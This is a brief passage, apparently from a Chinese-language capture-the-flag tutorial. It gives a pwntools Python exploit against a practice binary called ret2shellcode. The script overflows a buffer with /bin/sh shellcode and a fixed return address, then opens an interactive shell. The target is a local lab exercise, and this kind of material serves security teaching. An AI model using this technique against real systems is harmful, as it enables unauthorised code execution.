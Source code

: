 具体的 payload 如下


#!/usr/bin/env python
from pwn import *

sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
buf2_addr = 0x804a080
sh.sendline(shellcode.ljust(112, 'A') + p32(buf2_addr))
sh.interactive()